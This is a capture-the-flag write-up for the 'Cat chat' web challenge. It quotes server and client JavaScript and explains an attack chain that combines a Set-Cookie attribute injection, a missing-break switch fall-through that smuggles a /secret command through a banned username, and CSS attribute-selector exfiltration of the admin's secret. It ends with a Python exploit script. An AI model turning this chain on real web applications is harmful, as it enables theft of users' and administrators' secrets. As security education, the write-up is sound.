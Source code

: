 # Cat chat (web 210p, 46 solved)

In the task we get access to a web-based chat application.
We automatically join a random channel, and we can use the link with room number to invite more people to the chat.
The whole chat is implemented in javascript and apart from [client code](client.js) we also get [server code](server.js).

The chat, besides the obvious message sending function, has also some special commands:

- `/name YourNewName` - Change your nick name to YourNewName.
- `/report` - Report dog talk to the admin.

And if we look into the source code we get also information on admin commands:

- `/secret asdfg` - Sets the admin password to be sent to the server with each command for authentication. It's enough to set it once a year, so no need to issue a /secret command every time you open a chat room.
- `/ban UserName` - Bans the user with UserName from the chat (requires the correct admin password to be set).

If we use `/report` command admin comes to the chat, and leaves after a moment.
If any of the users meanwhile says `dog`, this user will get banned.
Ban is implemented only client-side, managed by a cookie, so we can un-ban our user simply by removing the cookie.

From the sources the first important part is the location of the flag, visible in the source code of the server code for handling `/secret` command:

```javascript
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
```

If someone issues this command, then server sends a cookie `flag` with a designated value.
From the description of the command we can guess that admin already has this cookie set, so our goal is to steal the cookie.
We notice here that there is a injection that allows us to add more parameters to the cookie header, so theoretically we could set secret with value `; Path=/whatever;` and thus overwrite the original intended cookie Path parameter.
This is useful, because it means we could use `/secret something; domain=gooe.com` to avoid setting a new cookie, so we won't overwrite the original flag someone might have stored in the cookie.
Stealing cookie would seem like a classic XSS task, however if we check the `Content Security Policy` header we can see that the whole application has:

```
default-src 'self'; 
style-src 'unsafe-inline' 'self'; 
script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; 
frame-src 'self' https://www.google.com/recaptcha/
```

So there is no way we can run any javascript there without a reflected xss somewhere on the website.
However, we can notice that there is a chance to load a inline CSS.

But once we analyse the client code, we notice that the cookie is not the only place where the flag might be present.
In the client-side handler for server messages we can see:

```javascript
secret(data) { display(`Successfully changed secret to <span data-secret="${esc(cookie('flag'))}">*****</span>`); },
```

So if a `/secret` command is issued, the server responds with `secret` message, and client will show a `span` with flag in it.
Moreover, the flag is actually value of attribute `data-secret` of tag `span`.
We've written already a bit about exfiltrating data from html tags attributes via CSS in https://github.com/p4-team/ctf/tree/master/2018-01-20-insomnihack/web_css and here we have a very similar case.

If we could inject CSS style somewhere on the page, we could place:

```css
span[data-secret^={letter} i]{{background: url({some_url}?msg={letter})}}
``` 

Every user for whom this style is applied, would make a request on URL we provide, assuming the secret data match the letter we selected.
In our case we can't use just any URL, because CSP will not allow sending the request "outside", but fortunately we can use url `/room/{room_id}/send?name=leaker&msg={letter}` and the data will appear as message on the chat in the room we select.
We can make a lot of those style entries, one for each letter of the flags charset, and thus recover the first letter of the secret.
Then we can simply match two letters, then three etc.

We're now left with two problems:
- We have to find a way to inject the CSS on the page
- We have to find a way to convince admin to issue `/secret` command.

Solution to the first problem can be found in the code handling banned users:

```javascript
    ban(data) {
      if (data.name == localStorage.name) {
        document.cookie = 'banned=1; Path=/';
        sse.close();
        display(`You have been banned and from now on won't be able to receive and send messages.`);
      } else {
        display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
      }
    }
```

If we look closely at the `else` case, we can notice that DOM of the page will get extended with `<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`, and we control the `data.name` parameter, since it's the username of banned user.

We can, therefore, use a name which closes the opening style tags and adds new ones, for example:

```
/name a i]{}] span[data-secret^=C i]{{background: url(/room/{room_id}/send?name=leaker&msg=C)}}span[data-name^=whatever
```

This way we can inject exfiltration CSS code, which will get triggered if any of users present on the chat have the secret displayed on the screen and it starts with `C`.
The only thing we need to trigger this is to call an admin and convince him to ban the user.

Now we come to the last issue, how to convince admin to issue `/secret` command.
This is a bit funny, because we've seen in writeups of some other teams, that they got this part all wrong, and their solution worked purely by accident.

We've spent quite a while on this step, because we knew from the start that simply forcing admin to send message `/secret something` to the chat won't work, contrary to what some other teams claim.
We tested this on a standard user, and we confirmed in the source code that such action will NOT cause the secret to appear on the chat.
The reason is quite trivial really, if we look at the sever code for handling this action:

```javascript
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
```

There is no broadcast here!
The response is never send via SSE, and therefore it will not get handled on the client side by the event handler which causes the secret to be added to DOM of the page.

So how come it actually worked for some other teams?
Pure coincidence.
The real vulnerability is in the event handling function on the server side:

```javascript
    switch (msg.match(/^\/[^ ]*/)[0]) {
      case '/name':
        if (!(arg = msg.match(/\/name (.+)/))) break;
        response = {type: 'rename', name: arg[1]};
        broadcast(room, {type: 'name', name: arg[1], old: name});
      case '/ban':
        if (!(arg = msg.match(/\/ban (.+)/))) break;
        if (!req.admin) break;
        broadcast(room, {type: 'ban', name: arg[1]});
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
      case '/report':
        if (!(arg = msg.match(/\/report (.+)/))) break;
        var ip = req.headers['x-forwarded-for'];
        ip = ip ? ip.split(',')[0] : req.connection.remoteAddress;
        response = await admin.report(arg[1], ip, `https://${req.headers.host}/room/${room}/`);
    }
```

We have a long switch-case block here, but there is no `break` anywhere!
Handling a single action does not stop the execution flow, it just falls through.
This means if packet `/name xx /ban yy /secret zz` comes to the server, all of those commands will get executed!

If we now check how the ban command is issued by admin on the client side:

```javascript
send(`/ban ${name}`);
```

We can see that we can easily set a special name which contains `/secret something; domain=gooe.com` string in it, and if admin bans such user, he will automatically issue `/secret` command.

This is the reason why it worked for so many teams. 
It had nothing to do with forcing admin to load a style from `/room/{room_id}/send?name=admin&msg=/secret xx` when banning a user, but simply the ban command contained the `/secret xx` string, and thus the command got executed by the handler on server side.

Our attack approach at this point is quite clear:

1. Create a user named `/secret something; domain=gooe.com`
2. Create a user with CSS exfiltration name.
3. Place one more user on the channel, to listen for flag characters.
4. Call admin via `/report`
5. Send `dog` message from the first user, get him banned and force admin to issue `/secret` command
6. Send `dog` message from the second user, get him banned and force admin to leak first character of the flag

We can then repeat those steps for 2nd, 3rd and next flag characters.
We've made a semi-automatic script for this, which required human intervention to collect the recaptcha token to call admin:

```python
import time

from requests import get
from requests import session

FLAG_CHARSET = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&()*+,-./:;<=>?@[\\]^_|~ '
CSS_HACK = """span[data-secret^={letter} i]{{background: url(/room/{room_id}/send?name=admin&msg={letter})}}"""
ROOM_ID = 'fe1fc600-c41b-454f-85eb-e5f03da8b435'
URL = 'https://cat-chat.web.ctfcompetition.com/room/{room_id}/'.format(room_id=ROOM_ID)


def send_message(session, name, message):
    return session.get(URL + 'send', params={'name': name, 'msg': message}, headers={'Referer': URL})


def change_name(session, new_name):
    return send_message(session, 'python_bot', "/name %s" % new_name)


def main():
    flag_payload = '/name a i]{}]'
    flag_payload += ''.join([CSS_HACK.format(room_id=ROOM_ID, letter=x) for x in FLAG_CHARSET])
    flag_payload += 'span[data-name^=whatever'
    captcha = raw_input('captcha code:')
    r = get(URL + 'send', params={'name': 'bzorp', 'msg': '/report %s' % captcha}, headers={'Referer': URL})
    time.sleep(1)
    cookier = session()
    cookier.get(URL)
    change_name(cookier, '/secret something; domain=gooe.com')
    send_message(cookier, '/secret something; domain=gooe.com', 'dog')
    time.sleep(2)
    flag_stealer = session()
    flag_stealer.get(URL)
    send_message(flag_stealer, flag_payload, 'dog')

main()
```

Running this mutiple times, expanding the flag prefix each time gives us: `CTF{L0LC47S_43V3R}`
